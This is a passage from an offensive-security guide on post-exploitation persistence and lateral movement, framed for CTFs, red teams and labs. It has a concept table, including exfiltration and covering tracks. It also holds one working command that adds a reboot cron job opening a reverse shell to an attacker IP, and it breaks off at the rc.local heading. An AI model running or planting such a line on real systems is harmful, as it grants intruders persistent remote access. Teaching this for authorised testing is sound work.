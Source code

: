 ```yaml
---
icon: hand-fist
---
```


# Persistence & Lateral Movement

## **Post-Exploitation: Persistence & Lateral Movement — The Operator’s Playbook**

***

Once you’ve escalated to root or SYSTEM, the game shifts from “getting in” to **staying in**, **expanding access**, and **owning the environment**.\
Post-exploitation is where reconnaissance becomes control — persistence, data theft, privilege expansion, and stealth are your weapons.

This section focuses on **real-world operator methodology** for maintaining and extending access during CTFs, red team operations, and advanced labs.

***

### I. 🧩 Core Concepts

| Concept                 | Description                                            |
| ----------------------- | ------------------------------------------------------ |
| **Persistence**         | Methods to maintain access after reboot or logout.     |
| **Lateral Movement**    | Expanding from one system/user to another.             |
| **Privilege Retention** | Ensuring continuous elevated access.                   |
| **Data Exfiltration**   | Extracting sensitive information (flags, creds, loot). |
| **Covering Tracks**     | Evading detection and cleaning artifacts.              |

***

### II. 🔒 Persistence Techniques

Persistence is about **surviving resets and reboots** — staying invisible yet present.

***

#### 🧠 1. Linux Persistence

**🔹 Add a Cron Job**

```bash
echo "@reboot bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" >> /etc/crontab
```

**🔹 Modify rc.local**
